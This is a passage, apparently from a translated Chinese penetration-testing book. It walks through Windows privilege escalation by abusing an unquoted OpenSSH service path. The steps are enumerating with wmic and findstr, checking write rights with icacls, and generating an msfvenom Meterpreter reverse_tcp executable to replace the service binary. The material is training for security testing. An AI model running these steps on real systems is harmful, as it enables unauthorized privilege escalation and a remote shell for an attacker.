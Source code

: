 1.  该过程的第一步是识别未被引号包围的服务路径，可以通过使用**Windows 管理工具**（**WMIC**）接口结合**findstr**工具来完成。在目标系统的 Windows 命令行中运行以下命令即可完成此操作：

    **wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\" |findstr /i /v """**

    此命令将输出一个带有未加引号服务路径的服务列表；在我们的案例中，我们能够识别出许多未加引号的服务路径，且可以利用它们。如以下截图所示，我们可以利用 OpenSSH 服务路径：

    ![图 8.1 – 查找未加引号的服务路径    ](img/B17389_08_001.jpg)

    图 8.1 – 查找未加引号的服务路径

    我们使用 OpenSSH 服务的原因是该服务需要管理员权限才能运行，因此它是在管理员用户下执行的。

1.  下一步是检查目录权限，以确定我们是否能够写入或更改 OpenSSH 服务目录的内容。我们可以使用**完整性控制访问控制列表**（**icacls**）工具检查目录的权限，通过运行以下命令：

    **icacls "C:\Program Files\OpenSSH"**

    如下截图所示，运行此命令会输出目录权限；在此案例中，系统上的标准用户具有写入权限，因此我们可以修改该目录的内容，因为我们是**BUILTIN\Users**组的成员：

    ![图 8.2 – 服务路径权限    ](img/B17389_08_002.jpg)

    图 8.2 – 服务路径权限

    我们可以利用这个错误配置来提升权限，通过将 OpenSSH 可执行文件替换为反向 shell 二进制文件。一旦 OpenSSH 服务已启动或重新启动，反向 shell 二进制文件将被执行，而不是 OpenSSH 可执行文件。

    提示

    反向 shell 有效负载应该与我们尝试利用的服务名称相同，并且应该上传到我们之前确定的相应服务路径。

1.  我们可以使用**msfvenom**生成 Meterpreter 有效负载并将其保存为可执行文件。可以通过在 Kali 中运行以下命令来实现：

    **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER-IP> LPORT=<PORT> -f exe > /home/kali/Desktop/cygrunsrv.exe**

1.  在生成有效负载后，我们可以将其上传到 OpenSSH 服务路径，如下所示：

    C:\Program Files\OpenSSH\bin

1.  在上传 Meterpreter 有效负载之前，我们需要更改原始二进制文件的名称。然而，建议在该过程没有按预期工作时备份原始二进制文件。可以通过在 Meterpreter 会话中运行以下命令删除原始可执行文件：

    **删除 cygrunsrv.exe**
